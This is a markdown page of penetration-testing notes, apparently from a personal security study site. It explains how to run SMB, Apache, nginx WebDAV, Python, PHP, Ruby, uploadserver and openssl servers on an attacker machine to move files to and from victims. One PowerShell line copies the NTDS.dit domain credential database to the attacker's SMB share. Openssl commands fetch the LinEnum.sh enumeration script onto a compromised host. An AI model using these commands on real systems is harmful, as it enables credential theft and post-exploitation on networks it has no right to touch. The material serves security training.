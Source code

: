 ```yaml
---
title: Setting up servers
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - servers
  - file transfer
---
```

 # Setting up a server (in the attacking machine)

| **Protocol / app**                            |
| --------------------------------------------- |
| [smb server](#smb-server)                     |
| [Apache server](#apache-server)               |
| [ngix](#nginx)                                 |
| [symple python server](#simple-python-server) |
| [php web server](#php-web-server)             |
| [Ruby web server](#ruby-web-server)           |
| Burp Suite Collaborator                       |
| [Interactsh](interactsh.md)                   |
| [responder](responder.md)                     |
| [uploadserver](uploadserver.md)               |
| [Webdav wsgodav server](webdav-wsgidav.md)    |


## smb server

[Launch smbserver in our attacker machine](smbserver.md):

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/username/Documents/
```

Now, from PS in the victim's windows machine we could upload a folder to the shared folder in the attacker machine just by running:

```powershell
cmd.exe /c move C:\NTDS\NTDS.dit \\$ip\CompData
```


## Apache server

Once you have a folder structure such as "/var/www/" or "/var/www/html", and also an Apache server installed, you can serve all files from that path by initiating the service:

```bash
# Start Apache
service apache2 start

# Stop Apache
service apache2 stop

# Restart Apache
service apache2 restart

# See status of Apache server
service apache2 status
```

In Apache, the PHP module loves to execute anything ending in PHP. Also, by default, with Apache, if we hit a directory without an index file (index.html), it will list all the files.

## nginx

In Apache, the PHP module loves to execute anything ending in PHP. This is not very safe when allowing `HTTP` uploads, as we are trying to avoid that users cannot upload web shells and execute them.

Nginx server: 

```bash
# Create a Directory to Handle Uploaded Files
sudo mkdir -p /var/www/uploads/SecretUploadDirectory

# Change the Owner to www-data
sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory

# Create Nginx Configuration File by creating the file /etc/nginx/sites-available/upload.conf with the contents:
server {
    listen 9001;
    
    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}

# Symlink our Site to the sites-enabled Directory
sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/

# Start Nginx
sudo systemctl restart nginx.service

# If we get any error messages, check /var/log/nginx/error.log. we might see, for instance, port 80 is already in use.
```

Debuggin nginx:

First check: ensure the directory listing is not enabled by navigating to http://localhost/SecretUploadDirectory

Second check: Is default port in nginx already in use?

```bash
# Verifying Errors
tail -2 `/var/log/nginx/error.log`
# and we might check that port 80 could not be binded because is already in use

# See which service is using port 80
ss -lnpt | grep 80
# we will obtain the service and also the pid. For instance `2811`

# Check pid, for instance pid 2811, and see who is running it
ps -ef | grep "2811"

# Remove NginxDefault Configuration to get around this, we can remove the default Nginx configuration, which binds on port 80.
sudo rm /etc/nginx/sites-enabled/default
```

Finally you can copy to your nginx server all files you want to transfer with curl:

```bash
curl -T file.txt
# -T, --upload-file <file>; This transfers the specified local file to the remote URL. -T uses PUT http method
```


## Simple python server

```shell-session
# Creating a Web Server with Python3
cd /tmp
python3 -m http.server 8000

# Creating a Web Server with Python2.7
python2.7 -m SimpleHTTPServer
```


##  PHP web server

```shell-session
php -S 0.0.0.0:8000
```


## Ruby Web Server

```shell-session
ruby -run -ehttpd . -p8000
```

## uploadserver

More at [uploadserver](uploadserver.md).

Python's http.server extended to include a file upload page. Accepts the same options as http.server, plus a couple extras.

After the server starts, the upload page is at /upload. For example, if the server is running at http://localhost:8000/ go to http://localhost:8000/upload .

Warning: This is an upload server, and running it will allow uploads.

Repo: https://github.com/Densaugeo/uploadserver

**Installation:**

```bash
python3 -m pip install --user uploadserver
```

Basic usage:

```bash
python3 -m uploadserver
```


## openssl

Create a certificate in the attacker's machine:

```shell-session
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

Launch the openssl server in the attacker's machine:

```shell-session
openssl s_server -quiet -accept $portAttacker -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Next, with the server running, we need to download the file from the compromised machine. So, download the file from the victim's machine:

```shell-session
openssl s_client -connect $ipAttacker:$portAttacker -quiet > LinEnum.sh
```
